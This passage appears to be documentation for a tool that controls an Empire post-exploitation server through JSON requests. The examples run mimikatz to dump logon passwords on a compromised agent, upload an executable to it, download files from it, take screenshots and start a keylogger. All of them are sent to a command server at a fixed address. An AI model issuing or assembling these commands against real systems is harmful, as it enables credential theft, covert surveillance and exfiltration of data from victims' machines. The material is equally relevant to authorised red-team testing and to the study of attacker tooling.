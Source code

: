 ### Module Execution
```bash
# Execute module
{
  "action": "execute_module",
  "agent_id": "agent_001",
  "module_name": "powershell/credentials/mimikatz/logonpasswords",
  "empire_host": "192.168.1.100",
  "empire_port": 1337
}
```

### File Operations
```bash
# Upload file
{
  "action": "upload_file",
  "agent_id": "agent_001",
  "file_path": "/path/to/file.exe",
  "empire_host": "192.168.1.100",
  "empire_port": 1337
}

# Download file
{
  "action": "download_file",
  "agent_id": "agent_001",
  "file_path": "C:\\temp\\file.txt",
  "empire_host": "192.168.1.100",
  "empire_port": 1337
}
```

### Screenshot and Keylogger
```bash
# Take screenshot
{
  "action": "screenshot",
  "agent_id": "agent_001",
  "empire_host": "192.168.1.100",
  "empire_port": 1337
}

# Start keylogger
{
  "action": "keylogger",
  "agent_id": "agent_001",
  "empire_host": "192.168.1.100",
  "empire_port": 1337
}
```
